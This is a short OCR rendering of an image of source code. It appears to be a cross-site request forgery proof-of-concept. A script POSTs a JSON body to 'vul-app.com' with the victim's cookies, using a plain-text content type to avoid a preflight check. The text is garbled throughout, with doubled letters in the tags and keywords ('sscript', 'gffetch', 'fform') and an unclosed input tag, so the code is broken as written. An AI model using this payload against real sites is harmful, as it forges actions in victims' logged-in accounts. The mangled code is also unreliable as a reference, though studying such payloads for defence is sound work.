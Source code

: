 
 <sscript>
gffetch('http://vul-app.com', {method: 'POST', credentials: 'include', headers: {'Content-Type': 'text/plain'}, body: '{"name":"attacker","email":"attacker.com"}'});
</sscript>
<fform aaction="#">
<iinput type="button" value="Submit" /
</fform>
